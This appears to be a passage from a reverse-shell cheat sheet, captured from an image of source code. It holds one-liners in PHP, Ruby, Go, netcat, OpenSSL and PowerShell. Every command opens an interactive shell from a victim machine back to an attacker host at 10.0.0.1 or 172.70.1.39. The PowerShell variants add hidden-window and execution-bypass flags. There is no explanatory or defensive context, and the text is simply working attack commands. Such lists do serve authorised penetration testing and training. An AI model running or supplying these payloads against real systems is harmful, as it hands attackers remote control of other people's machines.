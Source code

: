 		php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'

		php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'

		php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

		php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

	Ruby:

		ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

		Windows only:

			ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

	Golang:

		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

	Netcat Traditional:

		nc -e /bin/sh 10.0.0.1 4242

		nc -e /bin/bash 10.0.0.1 4242

		nc -c bash 10.0.0.1 4242

	Netcat OpenBSD:

		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f

	OpenSSL:

		user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
		user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
		or
		user@attack$ ncat --ssl -vv -l -p 4242

		user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s

	Powershell:

		powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("172.70.1.39",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

		powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.70.1.39',4040);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

